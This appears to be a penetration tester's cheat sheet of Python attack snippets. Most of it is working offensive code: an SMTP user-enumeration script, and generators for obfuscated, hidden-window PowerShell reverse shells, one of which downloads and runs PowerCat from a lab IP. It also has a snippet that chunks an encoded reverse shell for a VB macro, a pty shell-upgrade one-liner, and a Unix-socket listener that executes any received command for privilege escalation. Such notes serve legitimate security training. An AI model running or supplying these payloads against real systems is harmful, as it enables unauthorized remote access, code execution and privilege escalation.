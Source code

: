 > A high-level, general-purpose programming language.


#File_Sharing

Starting the Python3 webserver using the http.server module
```bash
python3 -m http.server 80
```

#SMTP_Enumeration 

Using Python to script the SMTP user enumeration
```python
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 3:
        print("Usage: vrfy.py <username> <target_ip>")
        sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
ip = sys.argv[2]
connect = s.connect((ip,25))

# Receive the banner
banner = s.recv(1024)

print(banner)

# VRFY a user
user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
result = s.recv(1024)

print(result)

# Close the socket
s.close()
```
Running the above Python script to perform SMTP user enumeration
```bash
python3 smtp.py root 192.168.69.169
python3 smtp.py hentaisalesman 192.168.69.170
```

#Shell_Access #Remote_Access

Script to create smaller chucks for encoded powershell reverse shell for VB macro
```python
str = "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4yMDEvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4yMDEgLXAgNDQ0NCAtZSBwb3dlcnNoZWxsCg=="

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Script to generate UTF16 Encoded PowerShell reverse-shell payload
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.69.196",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Script to generate UTF16 Encoded PowerCat download and reverse shell execution
```python
import sys
import base64

payload = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.69.169:8888/powercat.ps1');powercat -c 192.168.69.169 -p 7777 -e cmd"

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#Full_Interactive_Shell

Spawn /bin/bash using Python’s PTY module and connect the controlling shell with its standard I/O.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- pty module spawn a psuedo-terminal that can fool commands like su into thinking they are being executed in a proper terminal.


#Linux_Privilege_Escalation 

Socket binding example with Python (s.py)
```python
import socket
import os, os.path
import time
from collections import deque    

if os.path.exists("/tmp/s"):
  os.remove("/tmp/s")    

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/s")
os.system("chmod o+w /tmp/s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

Socket Command Injection References:
https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/socket-command-injection.md
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection
https://attackdefense.com/challengedetailsnoauth?cid=1384